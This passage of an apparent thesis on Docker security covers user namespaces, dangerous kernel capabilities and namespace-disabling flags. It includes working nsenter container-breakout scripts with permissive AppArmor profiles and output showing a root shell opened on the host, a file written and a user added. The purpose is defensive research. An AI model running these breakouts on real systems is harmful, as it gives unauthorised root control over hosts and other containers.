Running as root, gave a non-root user the ability to commit privileged actions against the host, which he could not fulfil without docker client. 

\subsection{User Namespaces}
\subsubsection{How User Namespaces work}
One may well wonder whether the user namespaces will protect host's root from such attacks.

Namespaces in Linux, are a feaure that partitions kernel resources and provide resource isolation. Changes to the global resource are visible to other processes that are members of the namespace, but are invisible to other processes. There are seven types of namespaces: mount (mnt), process id (pid), network (net), interprocess communication (ipc), UTS, user id (user), control group (cgroup).

User namespaces, as mentioned in man page, isolate security-related identifiers and attributes, in particular, user IDs and group IDs, the root directory, keys, and capabilities. A process's user and group IDs can be different inside and outside a user namespace. 
What Docker does, is a mapping between UIDs and GIDs inside the container to other's outside the container. A user namespace contains a mapping table converting UIDs from the container's point of view to the system's point of view. For example, if a user has UID 0 in the container, is treated as root. However, due to user namespace, outside the container the same user is actually treated as UID 5000 by the system for ownership checks. A similar table is used for GID mappings and ownership checks.

This type of namespaces targets to container breakouts and restricts a privileged process to not being privileged anymore if it manages to get outside of the container.

\subsubsection{Enable User Namespaces in Docker}
In Docker, user namespaces are not enabled by default. We need to manually ask the docker deamon for a user namespace remapping and then restart docker.

Below we explain the commands used to enable user namespaces, working on Ubuntu 15.10 \cite{raesene_userns} : 

\begin{lstlisting}[style=bashscript, caption={Script to enable user namespaces}]
#!/bin/bash

#We copy docker.service, since in /lib/systemd/system it could be overwritten by later package downloads
sudo cp /lib/systemd/system/docker.service /etc/systemd/system/
#Ask docker to remap the userns. This can be done to an explicitly chosen uid:gid, but the basic default option will probably work fine for a lot of use-cases.
#Add flag --userns-remap=default to ExecStart in docker.service
sudo sed -i '/ExecStart/ s/-H fd/--userns-remap=default -H fd/' /etc/systemd/system/docker.service
#Restart docker. If you do not have systemctl, use the service command.
sudo systemctl daemon-reload
sudo systemctl restart docker #Or: sudo service docker restart
\end{lstlisting}

After we complete the steps above, if we check /etc/subuid and /etc/subgid files we shall see a new user called dockremap and the range of UIDs/GIDs given to him.

\subsubsection{Shortcomings}
When enabled, user namespaces will indeed protect host's root from the container and is definitely a handy feature to be running.

However, as it is something \say{new} added to docker, there are some problems with the lack of filesystem support. One known side-effect is that as soon as userns-remap is used, all images will be cleared. This is happening because of the file ownership within the image layers. If the existing layers were used after the remapping of user and group ids, the containers would encounter a read-only environment and the new UIDs/GIDs would have no write access to most directories or not even read access to many of them, as well, due to the permission bits in the original content. Therefore, Docker chooses to make a fresh start with an empty cache after a remapping of UIDs/GIDs. If docker deamon is restarted, all prior content will be there. Comparing to the benefits gaining from user namespaces, this side effect is insignificant, but it could cause much trouble to a docker user.

Although user namespaces could prove themselves to be highly beneficial for containers security, it is a fact that we cannot rely exclusively on them for host's protection. Using user namespaces as the only measure of security, could lead to exteme risks.

First of all, we shall always have in mind as a potential risk that some piece of kernel code might not be refactored to account for distinct user namespaces. That could lead in harming host's environment.

Moreover, user namespaces are in a way a namespacing of capabilities and rather than being subtractive as we would like them to be, actually grant non-root users increased access to system capabilities. This is happening because kernel grants initial process in new user namespace a full set of capabilities, which are only for operations on objects governed by the new user namespace. Yet, giving an unprivileged user full capabilities in a child user namespace - docker container - is a risk, as it is possible to achieve doing some privileged operations in outer namespace - host - as we explain in section \textit{Kernel Capabilities}. \cite{usernsnotsosecure}

It is of great importance for containers' security to merge user namespaces with other types of namespaces and other security features such as dropping capabilities.

Let's take a look at the following diagram of namespaces: \cite{diagramuserns}

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.9\linewidth]{./figures/userns1gm.png}
   \caption{Namespaces Diagram}
\end{figure}

In the system represented in the diagram, there are three initial namespaces (user, network, UTS), one child of the initial user namespace and a second UTS namespace which is owned by the child user namespace.

Suppose that process X tries to change host name. Host name belongs to UTS namespace handling objects and changing it requires capability SYS\_ADMIN. Process X is a member of the second UTS namespace which is owned by child user namespace where our process has UID 0, which means it's root and has capability SYS\_ADMIN inside this namespace. Therefore, it is able to complete this action.

Now, suppose that process X tries to bind to reserved socket port. Binding to ports belongs to network namespace handling objects and binding to reserved socket port requires capability NET\_BIND\_SERVICE. Process X is a member of the initial network namespace but that network namespace is owned by the initial user namespace and not by the user namespace of which process X is a member. This means initial network namespace treats process X as a non-privileged user with UID 1000 and therefore process X does not have capability NET\_BIND\_SERVICE inside this namespace.

If we think of process X as an attacker and its actions as container breakouts, then user namespaces alone could not protect us from him. In this example, what hosts needs in order to be secure from the attacker in alignment with user namespaces is to enable UTS and network namespaces and drop container's capabilities. In Docker, UTS and network namespaces are enabled by default, so what we mean by enabling them is not to use flags as --net=host and --uts=host, which disable the creation of new network and uts namespaces for the container. 

\subsection{To Root or Not to Root}
All in all, user namespaces is a beneficial feature to use, but on its own is not enough to protect host, thus \textbf{it is still wise not to use root in containers}. If you really have to give root to a container, then consider about customizing a non-root user, to \textbf{look like root, using user namespaces or adding kernel capabilities} (see next section). If this is not working for you, then make sure that you \textbf{use other security tools, as an extra security wall}, to secure your container, 

\begin{mdframed}[backgroundcolor=navajowhite]
When using images from DockerHub or when using FROM command in Dockerfile to provide your container a base image, consider that you may inherit the running as root from this image so you have to make sure you create a new image and change to non-root by using \textbf{USER command in Dockerfile}.

Another solution would be parsing a non-root user of host to the container at runtime either with \textbf{flag -u} or inside docker-compose. That would result in exactly the same solution as creating a new user inside the Dockerfile. Just make sure that the host's user that you will be parsing, does not have any special privileges by taking a look at the groups he belongs.
\end{mdframed}

\section{Kernel Capabilities}
\subsection{What are Kernel Capabilities?}
In Linux, root's special powers have been split into individual capabilities and the actions normally reserved for root are broken down into smaller portions. Capabilities system was designed to help remove the problems associated with the need for root privileges. An application could demand more privileges but that does not mean it exclusively needs root to run it. All we have to do is give the specific capability needed for a task to the user. 
A standard user could easily elevate to root by adding capabilities, and as we discussed before being root in a container should be avoided.

\subsection{Adding capabilities to a docker container}
In Docker, a container can be run with specific privileges by using --cap-add flag, which adds the specified capability or drop a capability similarly, by using the flag --cap-drop. By default, Docker drops all capabilities except for a specific set of capabilities, as we mentioned in Chapter 3, subsection \textit{Docker Compose}.
 
Apart from adding capabilities one by one with flag --cap-add, Docker provides us with a feature called privileged, which, among others, adds all the linux capabilities that Docker supports. 
As mentioned in Docker Docs, \say{the --privileged flag gives all capabilities to the container, and it also lifts all the limitations enforced by the device cgroup controller}. In other words, the container can then do almost everything that the host can do.

The more capabilities a container has, the more privileged it gets. 
Therefore, either by adding crucial capabilities or by using privileged feature to a container, escalation to root is on the horizon.

Not all of the capabilities, are dangerous though. There are some capabilities which are indeed more \say{innocent} than others. Frankly, if a container grants capability SYS\_TIME, which makes it capable to set system clock, it does not constitute a threat in any way.

\subsection{Crucial capabilities}
So which are the crucial capabilities and how could a kernel capability lead to container breakout?
Below, we can see some “dangerous” capabilities that give a container great privileges and if no other security measures are taken they could result in a container breakout.

\begin{description}[style=nextline]
\item[SYS\_ADMIN]
In capabilities man page the first note about this capability is that it is overloaded. Thus, the problem starts from kernel developers, since SYS\_ADMIN grants power that should have better been divided to more capabilities. Briefly, capability SYS\_ADMIN allows performing a range of system administration and privileged operations. Giving a process SYS\_ADMIN capability allows a user to administer a machine and is pretty close to removing all isolation.

\item[SETUID \& SETGID]
We merged these capabilities in the same paragraph because every example and every attack we encountered needed both of them, as they are highly associated. Their use as mentioned in man page is to make arbitrary manipulations of process UIDs/GIDs and supplementary GID list for setgid, forge UID/GID when passing socket credentials via UNIX domain sockets as well as write a user/group ID mapping in a user namespace.

Having these capabilities means you can interact with processes of other UID/GID's by simply making your UID/GID the same as theirs.
One obvious attack is the ability to change the UID to 0, where UID=0 is root. If we forget about user namespaces, this means we are in serious danger of exposing host's root. This attack cannot stand on its own, but combined with other privileges it is possible enough to happen. 

\item[SYS\_CHROOT]
This capability allows use of chroot(). In other words, it allows processes to chroot into a different rootfs. This capability could prove itself extremely risky if an attacker manages to sneak into host's filesystem and execute chroot into it.

\item[SYS\_PTRACE]
Among others SYS\_PTRACE is used to trace arbitrary processes using ptrace(2). This means that as soon as we have a pid, this capability gives us the opportunity to learn information about the process specified by that pid.

Suppose we know pids of processes outside our container, is it possible for a container to learn information for processes outside its pid namespace? Having in mind that docker inspect uses ptrace to look into containers, a container that has ptrace under the right circumstances could gain information about other containers and host and maybe even extract passwords or other secrets that they shouldn't know.

\item[DAC\_OVERRIDE]
Quoting capabilities man page, \say{DAC\_OVERRIDE allows root to bypass file read, write, and execute permission checks (DAC is an abbreviation of discretionary access control)}.
This means that a container which has this capability could bypass all file and owner permission fields and have any access it desires on any file on the system. Obviously, this destroys almost everything SecureWilly is working on, as file rules in AppArmor profiles are completely useless. 

Throughout, our research we came across some benchmarks that requested this capability in logs. We could not get past this, so with a heavy heart we added this capability to the container. However, we should mention that, at those particular benchmarks, we did not have input for static analysis. We only had a docker image for dynamic analysis, so we believe that, if SecureWilly had access to Dockerfile and docker-compose file, then it could figure a way around this capability, because it could investigate what files the container would need access and extract the necessary rules. This is why static analysis is very important, so if you want SecureWilly to help you build a secure profile, you should help too by providing the input code for static analysis and avoid capabilities like DAC\_OVERRIDE.

On the other hand, we should be optimistic and think that a container asks for DAC\_OVERRIDE for a good reason, such as fixing bad permissions in the file system.
But, we should always bare in mind DAC\_OVERRIDE's evil side and as Steve Grubb, security standards expert at Red Hat, said \say{If your container needs this, it's probably doing something horrible}.

A similar capability which gives only read access that has to be taken into consideration is DAC\_READ\_SEARCH.
\end{description}

These capabilities are only a subset of the most obvious capabilities that could lead to an attack. Almost every capability could be proven dangerous, if an attacker uses it with bad intentions. 

\subsection{Use capabilities in caution}
In this section, we do not provide any example attacks, as all of the capabilities mentioned are used maliciously by attackers in every example we present in the following sections.

All in all, although a widespread use of \textbf{kernel capabilities} could reduce the amount of vulnerabilities that cause complete root access, they \textbf{should be added mindfully} otherwise they could lead to dangerous paths. 
Flag privileged which adds all capabilities is definitely discouraged to be used, if not specifically needed. Even smart admins can make bad decisions, and using Docker's privileged feature if they need only a subset of capabilities would be a very bad decision.

\section{Disabling Namespaces}
\subsection{Linux Namespaces in docker containers}
Linux Namespaces, are a feaure that partitions kernel resources and provide resource isolation, like we mentioned in section \textit{Running as root: User Namespaces}.  The purpose of namespaces, as given in namespaces man page, is to wrap a particular global system resource in an abstraction that makes it appear to the processes within the namespace that they have their own isolated instance of the global resource. One of the overall goals of namespaces is to support the implementation of containers. 
Currently, Linux implements seven different types of namespaces: mount (mnt), process id (pid), network (net), interprocess communication (ipc), UTS, user id (user), control group (cgroup).

Docker uses namespaces and most of them are by default enabled. Only user namespaces as we mentioned in section \textit{Running as root: User Namespaces} are disabled, but we showed how we can enable them manually.

\subsection{Runtime flags to disable namespaces}
Docker provides us with some flags that disable some of the container namespaces and allow a container to run within host's namespace or within another chosen namespace. These flags are the following:

\begin{description}[style=nextline]
\item[--pid=host:]
Disables pid namespace and opens up host's pid namespace to the container. A container that is run with this flag, can see all processes running in host and if it combines it with mounting docker.sock or other vulnerabilities then it can inspect any container running on host. Moreover, being in host's pid namespace means that an attacker can enter host or any other container he knows the pid and execute commands, as we will see in section \textit{Nsenter tool}.

\item[--net=host:]
This flag makes host's network namespace visible to the container. This means that an attacker can become fully aware of what happens in host's networking and make use of host's network resources such as listening to ports where other containers are binded.

\item[--uts=host:]
Being inside host's UTS namespace is not as dangerous as being inside other types of namespaces. UTS controls the hostname and domain information a process can see. One possible attack that could be made using this flag, is changing host's domain information like hostname from inside a container.

\item[--ipc=host:]
By using this flag, a container gets to live in host's ipc namespace. IPC, which stands for Interprocess Communications, manipulates within its namespace certain IPC resources, namely, System V IPC objects and POSIX message queues. If host's IPC namespace is exposed, an attacker can make use of host's ipc resources.

\item[--userns=host:]
User Namespaces, which were discussed in section \textit{Running as root: User Namespaces}, can be disabled with this flag. As soon as user namespaces are disabled, host's root is at great risk of being exposed which could lead to severe attacks since being root means having full control of a machine.
\end{description}

\subsection{Disabling Mount Namespace}

You may noticed that mount namespace is not included in the runtime flags we described above. Fortunately, there is no such a flag for mount namespace which controls the set of file systems and mounts a process can see. This means, a user who runs docker cannot use such a flag and directly enter host's mount namespace. However, if some of the flags above are used, an attacker can easily break his way into host's mount namespace too as we will see in the following examples.

There are still other techniques provided in order to share host's mount namespace and that would be mounting host's filesystems to the container.
\subsubsection{Mounting host's filesystem}
The most usual way to enter host's mount namespace is through sharing host's filesystem by mounting directories in runtime.
Mounting host's filesystems could be implemented with bind mounts, volumes and tmpfs mounts. Knowingly, we omit the tmpfs mounts because they could not constitute a severe measure for an attack as they are temporary, and only persisted in the host memory. When the container stops, the tmpfs mount is removed, and files written there won't be persisted. \cite{dockerdocsmount} 

On the other hand, bind mounts and volumes let you share files between the host machine and container so that you can persist data even after the container is stopped and this is what an attacker is aiming for.

Both of these features create a mount from host to container for persistent data. The difference between them lays to where the container directory of the volume is created. In bind mounts the mounted directory is exactly where you indicate in the binding whereas in volumes the directory is created under /var/lib/docker/volumes (either they are named volumes which have a certain name and can be referenced to by only their name or they are volumes in dockerfile which don't have a certain name and their \say{name} is just some kind of hash).

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.6\linewidth]{./figures/omittmpfsgm.png}
   \caption{Persistent data mounting: Bind Mounts and Volumes}
\end{figure}

Our approach, will be handling both of these types the same way and we will refer to both of them as mounted volumes. It is a fact though, that bind mounts are more preferable to attackers, as they can commit an attack and leave no trace of it behind. Conversely, non malicious users are recommended to use named volumes for mounting host's directories.

Docker is aware of attacker's preference on bind mounts and has taken some measures to support host. When you bind mount, host's directory is always mounted to container's directory with root's uid/gid. On the condition that a container is run by non-root user as it should, the volume is supposed to be readonly. This is because docker's current preference is to not modify host things which are not within Docker's own control. Chowning the volume inside the Dockerfile will not change its uid/gid - neither will chmod - and chowning inside the container will not be permitted as it requires root privileges. The only escape to this, is to run the container as root - which is not advisable - and then you are the owner of the directory and have every permission on it.

Mounting volumes allows a specified mounting of host's filesystem into the container. This means that mount namespace can be shared up to a specific point depending on the height of the mounted directory's node in host's filesystem tree.
There can be minimal share of host's mount namespace resources or large scale sharing like the following examples:

\begin{itemize}
\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /dev:/dev
\end{lstlisting}
This command lets host's mount namespace open up only for /dev/ directory where the device nodes of the host are.

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /run:/run
\end{lstlisting}
This mounting has a significant impact in several ways, as many services of the host are provided to the container. For example, the container will be able to listen to docker.sock and thus, it will be able to run docker client - more on this is described in section \textit{Access to Docker Daemon}. It could also allow a container process to communicate with systemd (a software suite that provides fundamental building blocks for a Linux operating system) which also runs in /run directory as many other services.

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /:/host
\end{lstlisting}
Little left to discuss in this example, as it shares the entire host's filesystem into the container. This is exactly the type of mountings that should be avoided, as it makes docker processes completely useless and isolation is totally violated.
\end{itemize}

\subsection{Respect Namespaces}
These features destroy every wall that isolates host from the container and makes it very easy for an attacker to commit an attack to host. These flags are discouraged to be used if not needed and so are the extended mountings on host. Namespaces exist to protect you and it is mindful to respect their boundaries. If all of these flags are used, then you have already lost. There is not even a reason to run docker, it's as if running a program on host. If some of them must be used, you should combine them with other security measures. 

There is not much SecureWilly can do if you open up your namespaces to a malicious container. 

\section{Nsenter tool}
\subsection{What is Nsenter tool?}
Nsenter is the perfect tool to use to commit an attack by breaking into other processes' namespaces. The nsenter tool is part of the util-linux package since version 2.23. It provides access to the namespace of another process. Nsenter requires root privileges to work properly and this is another reason why we should not run containers as root. All you need to have in order to work with nsenter is the pid of the target process and then you can execute any command inside their namespaces. 
What makes nsenter even more unsafe is that it does not drop capabilities. This means that the shell started by nsenter can do more harm potentially than a normal process running within the container, only by having the right capabilities added.

\subsection{Installation}
As nsenter ships only after util-linux version 2.23, if your package of util-linux is 2.20 or previous version (happens in Ubuntu 14.04), you can install it by using the “trick” described below \cite{nsentertrick} :

Run a docker container on host:
\begin{lstlisting}[style=dockercommands]
$ docker run --name nsenter -it ubuntu:14.04 bash
\end{lstlisting}

Inside the docker container run the script given below:
\begin{lstlisting}[style=bashscript, caption={Script to run inside docker container nsenter}]
#!/bin/bash

apt-get update
apt-get install git build-essential libncurses5-dev libslang2-dev gettext zlib1g-dev libselinux1-dev debhelper lsb-release pkg-config po-debconf autoconf automake autopoint libtool
git clone git://git.kernel.org/pub/scm/utils/util-linux/util-linux.git util-linux
cd util-linux/
sudo apt-get install bison
./autogen.sh
./configure --without-python --disable-all-programs --enable-nsenter
make
\end{lstlisting}

Open a new terminal on host while the container is still up and run the following commands on host:

\begin{lstlisting}[style=terminal]
$ sudo docker cp nsenter:/util-linux/nsenter /usr/local/bin/
$ sudo docker cp nsenter:/util-linux/bash-completion/nsenter /etc/bash_completion.d/nsenter
\end{lstlisting}

Now you can stop docker container and nsenter should be installed and ready to use.

\subsection{Using nsenter tool}
There are multiple ways for an attacker to use nsenter, in order to commit an attack. In the following examples we can see some minimal attacks that could be used as a base for a deeper attack.

The use cases we will look into are two: Breaking out to host and breaking out to another container. An attacker will commit the same attacks to both of them: ls root's directory, touch a file in root's directory, create a new user, create a shell in target's mount namespace.
The Principle of Least privilege was taken into account and it is certain that every container was run with the least privileges needed to commit each attack, including minimum number of capabilities added and minimum number of types of namespaces disabled.
Moreover, we reversed the logic of SecureWilly and we created AppArmor profiles for attacker's containers, again respecting the Principle of Least privilege and adding only the necessary rules that would let us bypass container's isolation. 

To begin with, an attacker can attach to a target process only with a small subset of privileges and a way into host's pid namespace. In both of the use cases, we run a container as root using host's pid namespace by adding --pid=host flag and add capability SYS\_ADMIN.

\begin{itemize}
\item The \textbf{--pid=host} flag opens up host's pid namespace to attacker's container, in order to make it possible for it to see the processes running on host and choose one of them as target.
\item Nsenter requires \textbf{capability SYS\_ADMIN} as the least possible root privileges in order to work. That happens because any namespace changes require admin privileges and nsenter uses setns system call.
\end{itemize}

These are the common features used for the two use cases. The rest of the rules differ depending on the target process, so we will explain the rest in the corresponding examples.

\subsubsection{Breakout to host}
In this example, the attacker tries to execute some commands on host. These commands escalate from simple actions to privileged actions.
A debian image is used as a base for the docker containers and the attacker runs the following script to start the containers:

\begin{lstlisting}[style=shellscript, caption={run\_privileged\_actions.sh}]
#!/bin/sh

#Load profile to apparmor
sudo cp attacker_profile /etc/apparmor.d
sudo apparmor_parser -r -W /etc/apparmor.d/attacker_profile

#List contents of host's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m ls /

#Touch a new file in host's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m touch HelloFromTheOtherSide

#Add a new user on host
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /usr/sbin/useradd hacked

#Create a shell in host
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_PTRACE --cap-add SYS_ADMIN debian:latest nsenter -t 1 -m /bin/bash 
\end{lstlisting}

The goal of our attack is escalating from gaining read access, to write access and lastly, having full access in host's filesystem. This is performed by using nsenter, targeting the mount namespace of the process with pid 1.

The process that receives PID 1, popularly termed the init process, is the first process that is started at boot time. The init process is the ancestor of all other processes and what makes it special for an attacker is that if this process dies for any reason, all other processes are killed with KILL signal and the kernel enters into a panic mode, after which you cannot do anything else, except rebooting. This characteristic constitutes init process a good target in order to take control of host.

The attacker runs the docker containers as root, thus he already has all of the file permissions needed for each command.

Except for the SYS\_ADMIN capability, when attempting to nsenter to specifically the init process, \textbf{capability SYS\_PTRACE} is required too. This derives from strace system call which is used to trace the signals due to the fact that PID 1 does not automatically get default signal handers, as other processes do.

Lastly, the namespace the attacker needs to enter in order to commit the attack is the mount namespace as it is the one handling the set of file systems a process can see and all of our examples implement attacks to target's filesystem. Thus, we add flag -m, which is the same as flag --mount that we will encounter in the next example.

All of those actions are allowed to happen owning to the following AppArmor profile:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacker\_profile}]
#include <tunables/global>

profile attacker_profile flags=(attach_disconnected,mediate_deleted) {
        file, 

        #Allow attack to Host
        capability sys_admin,
        capability sys_ptrace,
        capability sys_chroot,
        ptrace (read,trace),
}
\end{lstlisting}

The first rule of the profile, file rule, allows handling container's filesystem.

There are also some capability rules, which allow the use of capabilities SYS\_ADMIN, SYS\_PTRACE and SYS\_CHROOT. The first two capabilities were specifically requested in docker run command and the purpose of both of them is explained previously. \textbf{Capability SYS\_CHROOT} is not asked to be added in the docker run command, as it is included in the default set of capabilities that docker grants to every container, but is not allowed until AppArmor allows it with the corresponding rule. This capability is required because of the chroot system call that takes place after the setns system call. Nsenter requires chroot system call in order to succeed in entering host's mount namespace. The exact reason that chroot is needed is for nsenter to modify the pathname lookup for the container process after the change of mount namespace so that any reference to a path starting '/' will effectively have the new root and thus, the filesystem that the process will see from now on. 

The last rule is \textbf{ptrace (read,trace)} which allows the ptrace operations with read and trace permissions, so that it can find the target process.
\\
\\
Let's execute the script and see the output:
\begin{lstlisting}[style=terminal]
$ ./run_privileged_actions.sh 
====== ls / ======
HostRootDirIsHere  etc               lib         mnt   run   tmp      vmlinuz.old
bin                 home             lib64       opt   sbin  usr
boot                initrd.img       lost+found  proc  srv   var
dev                 initrd.img.old   media       root  sys   vmlinuz  
====== touch HelloFromTheOtherSide ======
====== useradd hacked ======
useradd: failure while writing changes to /etc/shadow
====== /bin/bash ======
root@c78a017a1455:/# ls | grep Hello
%Hello%FromTheOtherSide
root@c78a017a1455:/# ls -l HelloFromTheOtherSide 
-rw-r--r-- 1 root root 0 Jan 30 23:04 HelloFromTheOtherSide
root@c78a017a1455:/# cut -d: -f1 /etc/passwd | grep hacked
%hacked%
\end{lstlisting}

The attacker completed the attack with success. He achieved listing host's root directory contents, touched a new file and added a new user called hacked - /etc/shadow is the file where passwords are stored in encrypted format, we don't mind if it fails for some reason as we did not take any precautions over the password and the user was created anyway. The bash shell was created and the attacker detected the file he touched before, found the user hacked among host's users and is free to commit any attack inside host's mount namespace.

\subsubsection{Breakout to another container}

If the attacker is capable to sneak into host then it is a matter of time before he sneaks into other containers. Breaking out to other containers in the following example is achieved by using nsenter to other host's processes' mount namespace which is a lot easier than entering the init process namespaces.

First, we have to run a container that is going to form the attacker's target.
We use a debian image as a base image and run a bash shell as follows:

\begin{lstlisting}[style=dockercommands]
$ docker run --security-opt "apparmor=attacked_profile" --rm -it debian:latest /bin/bash
\end{lstlisting}

In order to make the example more obvious we may touch a new file in the root's directory and execute ls command in the container we just created:

\begin{lstlisting}[style=terminal]
root@97fafdf8604a:/# touch ThisIsTheAttackingContainer
root@97fafdf8604a:/# ls
ThisIsTheAttackingContainer  dev     lib	  mnt   root  srv usr
bin                            etc   lib64  opt   run   sys var
boot                           home  media  proc  sbin  tmp
\end{lstlisting}

The AppArmor profile that we used in the container above, allows handling container's filesystem and ptrace operations with read and trace permissions only done by others towards our process.

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacked\_profile}]
#include <tunables/global>

profile attacked_profile flags=(attach_disconnected,mediate_deleted) {
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        #Allows nsenter
        ptrace (readby,tracedby),
}
\end{lstlisting}

Make sure to load the profile before running the container with the commands below:

\begin{lstlisting}[style=terminal]
$ sudo cp attacked_profile /etc/apparmor.d
$ sudo apparmor_parser -r -W /etc/apparmor.d/attacked_profile
\end{lstlisting}

In accordance with the breaking out to host instance, the attacker aims to execute some commands in target process's root directory.
In the following shell script, the attacker uses the docker client to find the pid of the target container and commits the attack:

\begin{lstlisting}[style=shellscript, caption={2\_run\_attacker\_to\_container.sh}]
#!/bin/sh

#List all running containers and keep the one including 'debian'
docker ps | grep debian > dockerps
#Keep the container's id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)
#Find the pid of the container's process
docker inspect --format {{.State.Pid}} ${container_id} > PID
container_pid=$(cat PID)

#List contents of container's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount ls /

#Touch a new file in container's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount touch HelloFromTheOtherSide

#Add a new user in the container
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /usr/sbin/useradd hacked

#Create a shell in the container
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /bin/bash

#Clear files
rm PID
rm dockerps
rm containerid
\end{lstlisting}

The docker run command executed above have the same flags as in the attack to host, except for the capability SYS\_PTRACE which is no longer needed as we are targeting PIDs different from the PID 1. 

Moreover, after the attacker\_profile is loaded, it is used in order to allow the attack, exactly like the one used in host's attack except for the rule capability sys\_ptrace.

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacker\_profile}]
#include <tunables/global>

profile attacker_profile flags=(attach_disconnected,mediate_deleted) {
        capability sys_admin,
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        capability sys_chroot,
        ptrace (read,trace),
}
\end{lstlisting}
	
Below, you can see the output of the script the attacker executed:

\begin{lstlisting}[style=terminal]
$ ./2_run_attacker_to_container.sh 
====== ls / ======
ThisIsTheAttackingContainer  dev     lib	  mnt   root  srv usr
bin                            etc   lib64  opt   run   sys var
boot                           home  media  proc  sbin  tmp
====== touch HelloFromTheOtherSide ======
====== useradd hacked ======
useradd: failure while writing changes to /etc/shadow
====== /bin/bash ======
root@fdeb9f62ec00:/# ls
HelloFromTheOtherSide          bin   dev	home  lib64  mnt  proc	run   srv  tmp	var
ThisIsTheAttackingContainer  boot    etc	lib   media  opt  root	sbin  sys  usr
root@fdeb9f62ec00:/# ls -l HelloFromTheOtherSide 
-rw-r--r-- 1 root root 0 Jan 31 01:02 HelloFromTheOtherSide
root@fdeb9f62ec00:/# cut -d: -f1 /etc/passwd | grep hacked
%hacked%
\end{lstlisting}

As expected, the attacker has succeeded again. He was able to list target's root directory contents, touch a new file and add a new user called hacked and confirmed all of these actions through the bash shell which was created and he may as well commit any attack inside target's mount namespace.
\\
\begin{mdframed}[backgroundcolor=navajowhite]
To sum up, an attacker is capable to perform a breakout of his container with a small subset of privileges. This subset includes \textbf{running as root}, granting capability SYS\_ADMIN (and SYS\_PTRACE for PID 1) and an AppArmor profile which allows \textbf{capabilities SYS\_ADMIN, SYS\_CHROOT (SYS\_PTRACE for PID 1)} and \textbf{ptrace read and trace operations}. 
Moreover, an AppArmor profile is needed for the target container which allows \textbf{ptrace readby and tracedby operations}.
\end{mdframed}

\subsubsection{Mounting host's filesystem into running container}
Let's see a more complex example of using nsenter to attack host. 

In this example an attacker aims to mount host's filesystem to a running container. As we explained in chapter Static Analysis, docker does not allow mounting on a running container. You can only create a mount volume at the phase of the creation of a container. This is because containers are supposed to be ephemeral so it is recommended to destroy the container and then recreate it to update the volume. 

However, there are some hacks that let the host interfere with the container and one of them is the container's filesystem layers hack presented below. The attacker in our example, achieves to create a mount on a running container through its filesystem layers which exist on host's filesystem.\cite{mountonrunning}

First, the container in which the host's filesystem will be mounted is started with the command below:

\begin{lstlisting}[style=dockercommands]
$ docker run --rm --name attacked_nsenter --security-opt "apparmor=attacked_container_profile" -t -i ubuntu:latest /bin/bash
\end{lstlisting}

As you can see no volumes are mounted at the docker run command. The mounting will be done after the container is up.

The profile that was used for this container is the following:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacked\_container\_profile}]
#include <tunables/global>

profile attacked_container_profile flags=(attach_disconnected,mediate_deleted) {
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        #Allow the attack
        ptrace (readby, tracedby),
}
\end{lstlisting}

This profile allows only the syscall ptrace to be used by others towards this container, so that the container is traceable.

The next thing that should be done is running a container that will commit nsenter to host's mount and pid namespaces and execute a shell inside host:

\begin{lstlisting}[style=dockercommands]
$ docker run --device /dev/vda1 -v /var/run/docker.sock:/var/run/docker.sock --security-opt "apparmor=attackerns_profile" --pid=host --cap-add SYS_ADMIN --cap-add SYS_CHROOT --cap-add SYS_PTRACE --rm -it debian:latest nsenter --target 1 --mount --pid /bin/bash
\end{lstlisting}

The profile that was used for this container is given below:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attackerns\_profile}]
#include <tunables/global>

profile attackerns_profile flags=(audit,attach_disconnected,mediate_deleted) {
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        capability sys_chroot, #needed for nsenter
        capability sys_admin, #needed for nsenter
